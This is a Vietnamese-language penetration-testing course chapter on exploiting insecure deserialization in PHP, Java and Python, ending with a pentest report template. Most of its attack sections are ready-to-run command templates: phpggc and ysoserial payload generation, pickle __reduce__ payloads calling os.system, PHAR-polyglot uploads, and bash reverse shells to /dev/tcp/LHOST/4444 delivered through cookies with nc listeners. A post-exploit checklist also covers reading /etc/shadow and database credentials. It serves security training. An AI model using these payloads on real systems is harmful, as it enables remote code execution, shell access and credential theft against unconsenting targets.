

> **Prerequisites**: Tất cả bài 01–11
> **Objectives**:
> - Áp dụng methodology hoàn chỉnh từ black-box đến shell
> - Dùng checklist có hệ thống để không bỏ sót attack surface
> - Phân tích exploit chain mẫu cho từng ngôn ngữ
> - Document findings đúng format cho pentest report
>
---

## Overview & Mindset

Deserialization testing đòi hỏi một mindset khác so với SQLi hay XSS. Không có payload đơn giản "thử là biết ngay" — mỗi ngôn ngữ, mỗi framework, mỗi version có behavior khác nhau.

**Tư duy đúng**:
1. **Confirm trước, exploit sau** — luôn dùng OOB (DNS/HTTP) để confirm trước khi chạy RCE payload
2. **Classpath là vua (Java)** — không biết classpath = đoán mò; enumerate trước
3. **Codebase là bản đồ (PHP)** — source code tiết lộ tất cả gadgets; đọc kỹ trước khi chain
4. **Pickle đơn giản nhưng dễ bỏ sót (Python)** — scan tất cả data endpoints, không chỉ form fields

---

## Methodology Map



---

## Phase 1: Recon & Fingerprint

### 1.1 Passive Traffic Analysis

```bash
# Trong Burp Suite:
# 1. Proxy → Options → Enable Intercept
# 2. Browse toàn bộ app: đăng nhập, xem profile, checkout, API calls
# 3. HTTP History → Export tất cả requests
# 4. Filter: Response code 200, 302; POST requests

# Script tự động decode và classify cookies
python3 << 'EOF'
import base64, sys, re

# Paste raw HTTP history hoặc đọc từ file
test_values = [
    # Thêm cookie values từ Burp tại đây
    "rO0ABXNyACpjb20u...",
    "Tzo0OiJVc2VyIjox...",
    "gASVHgAAAAAA...",
]

SIGNATURES = {
    b'\xac\xed\x00\x05': "JAVA SERIALIZED",
    b'\x80\x04': "PYTHON PICKLE proto4",
    b'\x80\x03': "PYTHON PICKLE proto3",
    b'\x80\x02': "PYTHON PICKLE proto2",
}

for val in test_values:
    try:
        data = base64.b64decode(val + "==")
        found = False
        for sig, label in SIGNATURES.items():
            if data[:len(sig)] == sig:
                print(f"[!] {label}: {val[:30]}...")
                found = True
                break
        if not found and (b'O:' in data[:30] or b'a:' in data[:30]):
            print(f"[!] PHP SERIALIZED: {val[:30]}...")
        elif not found:
            print(f"[-] Unknown format: {data[:8].hex()}")
    except Exception as e:
        print(f"[-] Not base64: {val[:20]}... ({e})")
EOF
```

### 1.2 Kiểm tra các điểm inject tiềm năng

```yaml
□ Cookies: session, auth, token, user_prefs, cart, remember_me
□ POST params: data, payload, state, object, token, config
□ HTTP Headers: X-Session-Data, X-Auth-Token, Authorization (nếu không JWT)
□ Hidden form fields: __VIEWSTATE (ASP.NET), javax.faces.ViewState (JSF)
□ URL parameters: ?data=, ?token=, ?session=
□ File uploads: .pkl, .pickle, .ser, .phar, .yml, .yaml
□ API response: Có trả về serialized data không? (server → client)
□ WebSocket messages
□ RMI/JMX ports (nmap -p 1099,4848,9010,8686)
```

---

## Phase 2: Language-Specific Attack Chains

### PHP Attack Chain Template

```bash
# Bước 1: Fingerprint
echo "COOKIE_VALUE" | base64 -d | head -c 100
# Thấy O:X:"ClassName":... → PHP serialized

# Bước 2a: Whitebox — có source
grep -rn "function __destruct\|function __wakeup" . --include="*.php"
grep -rn "eval(\|system(\|exec(" . --include="*.php" | grep -v "//"
# → Xây POP chain thủ công (bài 02)

# Bước 2b: Blackbox — biết framework
php phpggc -l | grep -i "FRAMEWORK_NAME"
php phpggc FRAMEWORK/RCE1 system "curl http://LHOST:8080/phptest" --base64
# → Inject và check callback

# Bước 3: PHAR attack (nếu file upload + PHP < 8.0)
php -d phar.readonly=0 phpggc --phar phar --fast-destruct \
  -o payload.phar FRAMEWORK/RCE1 system "id"
python3 -c "open('evil.gif','wb').write(b'GIF89a'+open('payload.phar','rb').read())"
# Upload evil.gif → trigger phar:// path

# Bước 4: Reverse shell
php phpggc FRAMEWORK/RCE1 system \
  "bash -c 'bash -i >& /dev/tcp/LHOST/4444 0>&1'" --base64
```

### Java Attack Chain Template

```bash
# Bước 1: Fingerprint
echo "COOKIE_VALUE" | base64 -d | xxd | head -2
# AC ED 00 05 = Java serialized

# Bước 2: Confirm với URLDNS
java -jar ysoserial-all.jar URLDNS "http://$(openssl rand -hex 4).collab.net" \
  | base64 -w0 > /tmp/urldns.txt
curl -s http://TARGET/ -H "Cookie: session=$(cat /tmp/urldns.txt)"
# Check DNS callback

# Bước 3: GadgetProbe classpath enum
java -jar GadgetProbe.jar \
  --gadget-probe-wordlist gadgets-libraries.txt \
  --collaborator-url your.collab.net \
  --target http://TARGET/

# Bước 4: ysoserial chain test theo priority
for chain in CC6 CommonsBeanutils1 CC2 Spring1 ROME; do
  java -jar ysoserial-all.jar $chain "curl http://LHOST:8080/$chain" \
    2>/dev/null | base64 -w0 > /tmp/$chain.txt
  curl -s http://TARGET/ -H "Cookie: session=$(cat /tmp/$chain.txt)"
done
# Check HTTP server logs

# Bước 5: Reverse shell với working chain
CHAIN="CommonsCollections6"  # từ bước 4
B64CMD=$(echo -n "bash -i >& /dev/tcp/LHOST/4444 0>&1" | base64 -w0)
java -jar ysoserial-all.jar $CHAIN \
  "bash -c {echo,${B64CMD}}|{base64,-d}|bash" | base64 -w0 > /tmp/shell.txt
nc -lnvp 4444 &
curl -s http://TARGET/ -H "Cookie: session=$(cat /tmp/shell.txt)"
```

### Python Attack Chain Template

```bash
# Bước 1: Fingerprint
echo "COOKIE_VALUE" | python3 -c "
import sys, base64
data = base64.b64decode(sys.stdin.read().strip())
print(f'First 4 bytes: {data[:4].hex()}')
# 8004 / 8002 = pickle
# 636f73 = pickle protocol 0 (cos\n)
"

# Bước 2: Confirm với OOB
python3 -c "
import pickle, os, base64
class T:
    def __reduce__(self): return(os.system,('curl http://LHOST:8080/py_test',))
print(base64.b64encode(pickle.dumps(T())).decode())
" > /tmp/py_oob.txt
curl -s http://TARGET/ -H "Cookie: user_data=$(cat /tmp/py_oob.txt)"
# Check HTTP server

# Bước 3: Reverse shell
python3 -c "
import pickle, os, base64
class T:
    def __reduce__(self): return(os.system,(\"bash -c 'bash -i >& /dev/tcp/LHOST/4444 0>&1'\",))
print(base64.b64encode(pickle.dumps(T())).decode())
" > /tmp/py_shell.txt
nc -lnvp 4444 &
curl -s http://TARGET/ -H "Cookie: user_data=$(cat /tmp/py_shell.txt)"

# Bước 4: Django cache check (lateral movement)
find / -name "*.djcache" 2>/dev/null
# Nếu tìm thấy → cache poisoning attack (bài 08)
```

---

## Phase 3: Exploitation Checklist

```yaml
PRE-EXPLOIT:
□ Confirm serialization bằng OOB (DNS/HTTP) — KHÔNG chạy RCE trước khi confirm
□ Document endpoint và parameter chứa serialized data
□ Ghi lại framework/library version (để chọn đúng chain)
□ Classpath enumeration xong (Java) trước khi generate payload

EXPLOIT:
□ OOB test: curl/ping/nslookup callback trước reverse shell
□ Thử reverse shell sau khi OOB confirm
□ Nếu fail: thử encoding variations (URL, double-base64, hex)
□ Nếu SerialKiller: rotate chains theo priority order
□ Nếu tất cả fail: custom gadget chain

POST-EXPLOIT (Documentation):
□ Screenshot của shell output với id / whoami
□ Screenshot của HTTP request chứa payload
□ Note lại: endpoint, parameter, chain used, command
□ Test impact: đọc được /etc/passwd? /etc/shadow? database creds?
```

---

## Phase 4: Reporting Template

```markdown
### Insecure Deserialization — [Endpoint]

**Severity**: Critical
**CVSS Score**: 9.8 (Critical)
**CWE**: CWE-502 — Deserialization of Untrusted Data

**Affected Endpoint**: POST /api/session
**Affected Parameter**: Cookie: `session`
**Technology**: Java 11, Apache Commons Collections 3.2.1

**Description**:
The application deserializes user-supplied data in the `session` cookie without
validation. An attacker can craft a malicious serialized Java object using
the Apache CommonsCollections gadget chain to achieve Remote Code Execution.

**Proof of Concept**:
1. Intercept request in Burp Suite
2. Generate payload:
   ```
   java -jar ysoserial-all.jar CommonsCollections6 "id" | base64 -w0
   ```
3. Replace `session` cookie with payload
4. Observe RCE output / reverse shell connection

**Evidence**: [Screenshot của shell, HTTP request/response]

**Impact**:
Remote code execution as the web application user (www-data). An attacker
can read sensitive files, pivot to internal services, and establish persistence.

**Remediation**:
1. Avoid deserializing untrusted data. Use JSON/Protobuf instead.
2. Implement ObjectInputFilter whitelist (JDK 9+)
3. Update Apache Commons Collections to ≥ 3.2.2
4. Implement SerialKiller as additional layer of defense

**References**:
- CWE-502: https://cwe.mitre.org/data/definitions/502.html
- OWASP A8: Insecure Deserialization
- ysoserial: https://github.com/frohoff/ysoserial
```

---

## Tool Stack Summary

| Phase | Tool | Mục đích |
|-------|------|---------|
| Fingerprint | Burp Proxy + Decoder | Nhận biết serialized data trong traffic |
| Java Confirm | ysoserial URLDNS | OOB confirmation không cần gadget lib |
| Java Enum | GadgetProbe | Remote classpath enumeration |
| Java Exploit | ysoserial | Generate CC, Spring, Groovy... payloads |
| Java Decompile | jadx | Analyze JARs cho custom gadget |
| PHP Exploit | PHPGGC | PHP framework gadget chain generator |
| PHP Analysis | grep + PHP manual | Tìm magic methods trong source |
| Python Exploit | Python3 built-in | Craft pickle __reduce__ payloads |
| Python Analysis | pickletools.dis | Disassemble pickle streams |
| OOB | Burp Collaborator / interactsh | DNS/HTTP callback cho blind confirm |
| Misc | SerializationDumper | Human-readable parse Java serial stream |

---

## Appendix: Quick Reference Cards

### Magic Bytes Reference

```yaml
Java:       AC ED 00 05  →  base64: rO0A
PHP:        O:X:"Class"  →  base64: Tzo...
Pickle2:    80 02        →  base64: gAJ...
Pickle4:    80 04        →  base64: gASV...
.NET Bin:   00 01 00 00  →  base64: AAEAAAD...
Ruby:       04 08        →  base64: BAg...
```

### Priority Order — Java Gadget Chains

```bash
1. CommonsCollections6  (CC 3.x, JDK 6/7/8/11)
2. CommonsBeanutils1    (No CC needed, BeanUtils 1.9.2)
3. CommonsCollections2  (CC 4.x)
4. Spring1 / Spring2   (Spring 4.x + spring-beans)
5. ROME               (rome:1.0)
6. Groovy1            (groovy 2.3.x)
7. BeanShell1         (bsh 2.0b5)
8. C3P0               (c3p0 0.9.5.2)
```

### PHP PHPGGC Priority Order

```yaml
Laravel:  Laravel/RCE1 → Laravel/RCE2 → Monolog/RCE1 → Monolog/RCE2
Symfony:  Symfony/RCE4 → Symfony/RCE1
Yii:      Yii/RCE1
CodeIgniter: CodeIgniter4/RCE1
```